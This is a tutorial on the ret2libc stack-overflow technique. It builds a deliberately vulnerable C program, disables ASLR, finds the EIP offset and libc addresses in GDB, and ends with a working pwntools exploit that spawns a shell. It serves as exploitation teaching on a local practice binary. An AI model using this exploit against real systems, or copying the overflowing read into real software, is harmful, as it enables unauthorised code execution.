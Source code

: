 # Ret2libc ( return to libc attack )

Prerequisite: 

* NX Enabled
* No Canary
* PIE Disabled
* No Fortify

# ret2libc definition

As the name says, `ret2libc` which means, this technique involves code reusual from the dynamically linked file `libc.so.6`, since most of the binary is dynamically linked, all the functions which are predefined, for example `strcmp`, `puts`, `printf`, `gets` etc. are stored in the `libc.so.6`, when you dynamically link  an ELF file, these functions are stored in a section named as `.got.plt` which contains the `GOT` address, which is the address which imports the addresses of function in the runtime. Since, this section is about how to do `ret2libc` when `ASLR` is disabled.  It is simple from what you have been doing in stack overflow with a `ret2func` technique. In `ret2win` payload looks like:

```r
----------------------------------------------------
| padding to EIP | address of the win function     |
----------------------------------------------------
```

In `ret2libc` technique, our payload looks like:-

```r
--------------------------------------------------------------------------
| padding to EIP | function from libc.so.6 | dummy ret | args1.....argsN |
--------------------------------------------------------------------------
```
Where `N` being the number of arguments a function takes.

# Practical Experience

Now, let's take a binary and see how to use `ret2libc`:-

```C

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int vulnerable() {
	printf("> ");
	fflush(stdout);

	char buffer[128];
	read(STDIN_FILENO, &buffer[0], 512);
}

int main(int argc, char** argv) {
	vulnerable();

	return EXIT_SUCCESS;
}```

Compiling it with:

```r
d4mianwayne@oracle:/tmp/train$ gcc m32 -fno-stack-protector -no-pie ret2libc.c -o ret2libc
d4mianwayne@oracle:/tmp/train$ ./ret2libc 
> lol
d4mianwayne@oracle:/tmp/train$ checksec ret2libc
[*] '/tmp/train/ret2libc'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```

`NX Enabled` which means we can't just throw in the shellcode and make it executable, hence spawning a shell. Disabling the `ASLR`:-

```r
d4mianwayne@oracle:/tmp/train$ cat /proc/sys/kernel/randomize_va_space 
2
d4mianwayne@oracle:/tmp/train$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space 
[sudo] password for d4mianwayne: 
0
d4mianwayne@oracle:/tmp/train$ cat /proc/sys/kernel/randomize_va_space 
0
```

### Finding Offset to `EIP`

Now, everything is good, let's check the offset for EIP:-

```r

warning: ~/.gdbinit.local: No such file or directory
Reading symbols from ret2libc...(no debugging symbols found)...done.
GEF for linux ready, type `gef' to start, `gef config' to configure
78 commands loaded for GDB 8.1.0.20180409-git using Python engine 3.6
[*] 2 commands could not be loaded, run `gef missing` to know why.
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
[+] Saved as '$_gef0'
gef➤  r
Starting program: /tmp/train/ret2libc 
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.

-- snip --

$eip   : 0x6261616b ("kaab"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffceb0│+0x0000: "laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxa[...]"	 ← $esp
0xffffceb4│+0x0004: "maabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabya[...]"
0xffffceb8│+0x0008: "naaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab\n[...]"
0xffffcebc│+0x000c: 0x6261616f
0xffffcec0│+0x0010: 0x62616170
0xffffcec4│+0x0014: 0x62616171
0xffffcec8│+0x0018: 0x62616172
0xffffcecc│+0x001c: 0x62616173
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x6261616b
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ret2libc", stopped 0x6261616b in ?? (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0x6261616b in ?? ()


gef➤  pattern search 0x6261616b
[+] Searching '0x6261616b'
[+] Found at offset 140 (little-endian search) likely
```
### Finding Address of `system` and `/bin/sh`

The offset for `EIP` Is 140. Now, let's see how our payload is going to be, since we basically want to do `system("/bin/sh")`, all we have to do is get the address of `system` and `/bin/sh`. 

Let's find out the address:-

```r
 ✘ d4mianwayne@oracle  /tmp/train  ldd ret2libc
	linux-gate.so.1 (0xf7fd5000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7dd5000)
	/lib/ld-linux.so.2 (0xf7fd6000)
 d4mianwayne@oracle  /tmp/train  strings -a -tx /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
 17e0cf /bin/sh
```

This is the offset of the string `/bin/sh` in `libc.so.6`, and ASLR is disabled, so the base address of `libc.so.6` is `0xf7dd5000`. Then the address of `system` would be and `/bin/sh` would be-


```r
gef➤  p 0xf7dd5000 + 0x17e0cf
$1 = 0xf7f530cf
gef➤  x/s 0xf7f530cf
0xf7f530cf:	"/bin/sh"
gef➤  p system
$2 = {int (const char *)} 0xf7e12200 <__libc_system>
gef➤  
```


### Pwning Time

Payload would be:-


```r
------------------------------------------------------
| "A"*140 | system_addr + dummy_ret + /bin/sh address|
------------------------------------------------------
```

> Note: `dummy_ret` could be `0xdeadbeef` or `ret;`

Now, let's make an exploit and run it:-

```python
from pwn import *

p = process("./ret2libc")

bin_sh = 0xf7f530cf
system_addr =  0xf7e12200 


payload = b"A"*140
payload += p32(system_addr)
payload += p32(0xdeadbeef)
payload += p32(bin_sh)

p.sendlineafter(b"> ", payload)
p.interactive()
```

Running the exploit:-

```r
 d4mianwayne@oracle  /tmp/train  python3 ret2libc.py 
[+] Starting local process './ret2libc': pid 9167
[*] Switching to interactive mode
$ ls
ret2libc  ret2libc.c  ret2libc.py
$ 
[*] Interrupted
```

Next up is: ASLR enabled `ret2libc` attack.